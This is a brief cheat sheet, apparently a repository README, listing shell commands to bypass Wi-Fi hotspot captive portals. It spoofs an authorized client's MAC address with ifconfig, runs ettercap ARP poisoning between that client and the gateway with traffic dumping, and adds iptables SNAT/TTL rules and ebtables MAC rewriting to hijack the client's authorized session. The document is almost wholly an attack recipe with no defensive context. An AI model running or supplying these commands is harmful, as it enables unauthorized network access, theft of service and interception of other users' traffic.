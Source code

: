 # Hotspot Captive Portal Bypass  
## MAC-based Authorization  
ifconfig wlan0 hw ether <authorized_MAC_address>  

## IP-based Authorization  
	echo 1 > /proc/sys/net/ipv4/ip_forward;   
        ettercap -T -q -i wlan0 -w dump -M ARP /<IP_authorized_client>/ /<IP_gateway>/;  
        iptables -t nat -A OUTPUT -d ! <LAN> -j SNAT --to <IP_authorized_client>;  
        iptables -t mangle -A FORWARD -d <IP_authorized_client> -j TTL --ttl-inc 1;  

## MAC+IP-based Authorization  
	modprobe bridge;  
        brctl addbr br0;  
        brctl addif br0 <interface>;  
        ebtables -t nat -A POSTROUTING -o <interface> -d <MAC_gateway> -j snat --to-source <MAC_authorized_client>;  

## Then apply method for IP-based Authorization bypass  
